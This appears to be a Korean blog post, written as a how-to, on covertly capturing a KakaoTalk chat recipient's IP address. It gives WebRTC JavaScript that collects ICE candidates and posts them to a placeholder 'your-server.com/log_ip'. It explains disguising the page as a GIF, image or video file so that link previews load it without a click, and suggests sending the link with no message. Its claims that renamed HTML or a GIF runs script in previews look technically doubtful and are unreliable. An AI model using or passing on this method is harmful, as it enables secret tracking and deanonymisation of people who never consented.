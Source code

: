 ```yaml
---
title: "사진 한 장으로 아이피 추적하기3- webrtc"
categories: [security]
tags:
  - 잡다한 연구
---
```

## **원리**

1. **카카오톡 미리보기 기능을 활용** → 상대방이 메시지를 클릭하지 않아도 미리보기로 콘텐츠를 로드.
2. **WebRTC 코드가 포함된 미디어 파일을 서버에서 제공** → 상대방이 보는 순간 WebRTC 실행.
3. **WebRTC를 이용해 상대방의 IP 주소를 서버로 전송.**

---

## **🚀 실전 방법**

### ✅ **1단계: WebRTC IP 추적 코드 제작**

먼저, 상대방이 이미지를 보는 순간 WebRTC IP 추적이 실행되도록 **HTML 페이지**를 만든다.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));

            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://your-server.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Loading..." width="1" height="1">
</body>
</html>

```

✅ **설명**

- 상대방이 **이 HTML 페이지를 미리보기로 보게 되면 WebRTC가 실행되어 IP가 추출됨**.
- `fetch("https://your-server.com/log_ip")` 부분에 실제로 IP를 기록할 서버를 넣어야 함.

---

### ✅ **2단계: HTML을 미디어 파일로 위장**

이 HTML을 직접 보낼 수 없으므로, 카카오톡 미리보기에서 자동으로 로드되도록 변형해야 해.

### **🔹 방법 1: GIF 또는 이미지로 위장**

1. **HTML 파일을 이미지처럼 보이도록 변환**
    - `.html`을 `.png`, `.jpg`, `.gif` 등의 확장자로 변경하면 브라우저가 실행할 가능성이 있음.
    - `https://your-server.com/image.gif` URL을 만들고, HTML 대신 GIF처럼 동작하도록 설정.
2. **카카오톡에서 자동 미리보기가 활성화되는지 확인.**

### **🔹 방법 2: 동영상 파일로 위장**

1. `.mp4` 또는 `.mov` 파일을 만들고, 동영상 썸네일을 WebRTC 실행 코드가 포함된 웹 페이지로 연결.
2. 상대방이 채팅방에서 미리보기로 보는 순간 WebRTC 실행.

---

### ✅ **3단계: 카카오톡에서 미리보기가 자동 실행되는지 확인**

카카오톡에서 특정 링크는 미리보기를 자동으로 생성하는데, 이를 활용해야 함.

### **🔍 카카오톡에서 자동 미리보기 생성되는 링크 유형**

| 유형 | 미리보기 자동 실행 가능 여부 |
| --- | --- |
| 일반 HTML | ❌ (클릭 필요) |
| `.png` / `.jpg` (이미지) | ✅ (자동 실행 가능) |
| `.gif` (움직이는 이미지) | ✅ (자동 실행 가능) |
| `.mp4` / `.mov` (동영상) | ✅ (자동 실행 가능) |

💡 **즉, 상대방이 자동으로 미리보기를 보게 하려면 `.gif`, `.mp4`, `.png` 등의 파일로 위장하는 것이 좋음.**

---

## **🔥 실전 시나리오**

1. **서버 설정:**
    - `https://your-server.com/image.gif` 같은 URL에 WebRTC 추적 코드가 포함된 GIF를 업로드.
    - GIF를 미리보는 순간 WebRTC가 실행되도록 설정.
2. **카카오톡에서 전송:**
    
    ```
    
    https://your-server.com/image.gif
    
    ```
    
    - 상대방이 채팅방에서 미리보기로 보면 WebRTC 실행됨.
    
    <aside>
    💡
    
    냅다 아무 말 없이 보내는게 효과적일 것 같음
    
    </aside>
    
3. **IP 수집 확인:**
    - `your-server.com/log_ip`에서 IP 정보를 확인.

---

## **⚠️ 주의할 점**

- **카카오톡에서 미리보기 기능이 업데이트되면 일부 방법이 막힐 수 있음.**
- **상대방이 VPN을 사용하면 실제 IP가 아닌 VPN 서버 IP가 잡힐 가능성이 있음.**
- **법적인 문제를 고려해야 함. 상대방의 동의 없이 정보를 수집하는 것은 법적 책임이 있을 수 있음.**

---

## **💡 결론**

✅ **가장 효과적인 방법**:

- `.gif` 또는 `.mp4` 형식으로 WebRTC 실행 코드를 숨긴 후, 카카오톡에서 자동 미리보기 실행 유도.
- 상대방이 클릭하지 않아도 채팅방에서 **파일을 보는 순간 WebRTC 실행 가능**.
